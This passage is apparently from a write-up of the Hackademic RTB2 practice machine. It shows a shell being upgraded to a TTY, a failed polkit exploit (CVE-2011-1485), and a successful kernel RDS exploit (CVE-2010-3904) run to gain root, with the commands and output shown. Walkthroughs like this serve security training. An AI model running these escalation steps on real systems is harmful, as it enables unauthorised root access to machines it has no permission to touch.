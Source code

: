 * Shell jailbreaking to TTY
```
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@HackademicRTB2:/var/www$ ps
ps
  PID TTY          TIME CMD
 1415 pts/0    00:00:00 bash
 1418 pts/0    00:00:00 ps
```

## __Privilege escalation__
Same as previous EP RTB1. The machine is using vulnerable pkexec version
```
www-data@HackademicRTB2:/var/www$ pkexec --version
pkexec --version
pkexec version 0.96

www-data@HackademicRTB2:/tmp$ uname -a
uname -a
Linux HackademicRTB2 2.6.32-24-generic #39-Ubuntu SMP Wed Jul 28 06:07:29 UTC 2010 i686 GNU/Linux
```


* polkit-pwnage.c (Failed) (CVE-2011-1485) - https://git.zx2c4.com/CVE-2011-1485/tree/polkit-pwnage.c
```
vi polkit-pwnage.c
gcc polkit-pwnage.c -o polkit-pwnage
chmod +x polkit-pwnage
./polkit-pwnage

www-data@HackademicRTB2:/tmp$ Error determing pid of caller (pid 1458): stat() failed for /proc/1458: No such file or directory
```

By the way, Linux 2.6.32-24-generic is vulnerable to CVE-2010-3904 then let's try it.
* 15285.c (Work!) (CVE-2010-3904) - https://www.exploit-db.com/exploits/15285/
```
vi 15285.c
gcc 15285.c -o 15285
chmod +x 15285
./15285

www-data@HackademicRTB2:/tmp$ ./15285
./15285
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc08cac4c
 [+] Resolved default_security_ops to 0xc0773340
 [+] Resolved cap_ptrace_traceme to 0xc02f5060
 [+] Resolved commit_creds to 0xc016dd80
 [+] Resolved prepare_kernel_cred to 0xc016e0c0
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
# id
id
uid=0(root) gid=0(root)
# ls -al /root
ls -al /root
total 120
drwx------ 13 root root  4096 Jan 29  2011 .
drwxr-xr-x 22 root root  4096 Dec 29 12:30 ..
```